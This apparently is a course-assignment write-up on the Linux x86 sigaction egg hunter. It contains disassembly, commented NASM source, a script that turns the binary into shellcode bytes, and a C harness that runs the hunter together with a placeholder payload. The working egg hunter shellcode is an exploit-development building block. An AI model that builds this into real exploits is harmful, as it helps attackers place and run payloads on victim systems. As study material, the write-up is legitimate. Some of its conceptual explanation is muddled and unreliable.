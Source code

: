 # Assignment 3

## What to do:

-Study about the Egg Hunter shellcode

-Create a working demo of the Egghunter

-Should be configurable for different payloads

## Solutions:

1) Study about the Egg Hunter of the shellcode: 

All the information used to solve this section was found at [Safely Searching Process Virtual Address Space](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf).

First of all, what is an Egg Hunter?

As it is said in the paper, is a virtual address space where we can inject the code/payload in the current process. The egg is the marker that helps the payload to be located by the exploit. In this case, the sigaction method is the one selected to be implemented.

### Sigaction implementation

Nasm code given as a reproduction of the Egg Hunter using this technique:

        00000000  6681C9FF0F        or cx,0xfff
        00000005  41                inc ecx
        00000006  6A43              push byte +0x43
        00000008  58                pop eax
        00000009  CD80              int 0x80
        0000000B  3CF2              cmp al,0xf2
        0000000D  74F1              jz 0x0
        0000000F  B890509050        mov eax,0x50905090
        00000014  89CF              mov edi,ecx
        00000016  AF                scasd
        00000017  75EC              jnz 0x5
        00000019  AF                scasd
        0000001A  75E9              jnz 0x5
        0000001C  FFE7              jmp edi


2) Create the nasm code that will reproduce the eggcode.

Now that we know the exact structure for the egg hunter, we need to create the nasm code. Using this schema, here is the final code.

        global _start 

        section .text

        _start: 

        alignment:  
                or cx,0xfff         ; Page alignment

        search_shell:  
                inc ecx             ; Increment our page alignment (space "created" where the shellcode will be executed)
                push byte +0x43     ; Sigaction syscall (0x43 = 67 decimal)
                pop eax             ; eax=67
                int 0x80            ; Syscall sigaction

                cmp al,0xf2         ; If al is 242 (0xf2), then there is a sigaction error and egg hunter can not be executed
                jz alignment        ; The code keeps jumping to alignment until the comparison is set to False (searchs the egghunter)
                mov eax, 0x7A6EA1A2 ; Here is the eggcode
                mov edi, ecx        ; Moves ecx to edi (pointer to the shellcode)
                scasd   	    ; Compares (double word) eax with edi 
                jnz search_shell    ; If it did not match try the next address
                scasd
                jnz search_shell
                jmp edi             ; We found our egg identifier, pass execution

After that, we must compile the code using compile.sh. This bash script will do the following:

   * 2.1) Assembly and link the nasm code:

                echo '[+] Assembling with Nasm ... '
                nasm -f elf32 -o Egg_Hunter.o Egg_Hunter.nasm

                echo '[+] Linking ...'
                ld -o Egg_Hunter Egg_Hunter.o

                echo '[+] Done!'
  * 2.2) Obtain the shellcode from the binary created:

        objdump=$(objdump -d ./Egg_Hunter|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g')

   * 2.3) Inject the output of objdump to the shellcode.c:

                replace "shellcode" "$objdump" -- shellcode.c &>/dev/null #Replace shellcode dump
   * 2.4) Compile the shellcode and execute it

         gcc -fno-stack-protector -z execstack shellcode.c -o shellcode &>/dev/null #Compile and execute the shellcode
     
3) Should be configurable for different payloads:   

As it should be configurable to different payloads, we need to modify the original shellcode script. This is the key part of the script:

        unsigned char egg_code[] = "shellcode" //Shellcode is replace with the content of objdump
        unsigned char payload[] = "eggcode+eggcode+Shellcode" //eggcode is the "egg/mark" injected into the nasm code.

        main()
        {
                printf("Eggcode Length:  %d\n", strlen(egg_code));
                printf("Payload Length:  %d\n", strlen(payload));

                int (*ret)() = (int(*)())egg_code;

                ret();

        }


